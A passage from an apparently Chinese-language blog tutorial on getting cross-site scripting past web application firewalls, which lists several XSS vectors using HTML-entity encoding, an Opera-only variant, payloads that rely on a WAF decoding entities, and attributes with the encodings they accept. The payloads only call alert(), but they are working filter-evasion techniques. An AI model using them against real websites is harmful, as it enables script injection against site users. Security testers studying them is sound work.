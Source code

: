 [code]

    <svg><script>alert&#40/1/&#41</script> // Works With All Browsers
    //　　( is html encoded to &#40
    //　　) is html encoded to &#41
[/code]



**Opera中的变种：**

[code]

    <svg><script>alert&#40 1&#41 // Works with Opera Only
[/code]



**实体解码：**  
通常那个WAF都会对输入进行解码，你应该测试一下你所遇到的WAF是否会进行实体解码。下面给出的例子不是一个孤立有效的XSS向量，然而有时候WAF会将其解码形成完美的javascript语法，然后你就能绕过了

[code]

    &lt;/script&gt;&lt;script&gt;alert(1)&lt;/script&gt;
    <a href="j&#x26;#x26#x41;vascript:alert%252831337%2529">Hello</a>
[/code]



**4.1.4 编码**

javascript是一门十分灵活的语言，我们可以灵活的使用多种类型编码，如十六进制、Unicode、HTML。然而他们对载荷编码都有某些的规则。有时候WAF解码实体时情况有所不同，这里是一个特定属性的列表，其后是他们支持的编码方式。  
属性：

![复制代码](https://common.cnblogs.com/images/copycode.gif)

[code]

    href=
    action=
    formaction=
    location=
    on*=
    name=
    background=
    poster=
    src=
    code=
[/code]

![复制代码](https://common.cnblogs.com/images/copycode.gif)

**支持的编码** : HTML, 八进制, 十进制, 十六进制, Unicode

**属性:** data= **支持的编码** ：base64



**4.1.5 基于上下文的过滤**
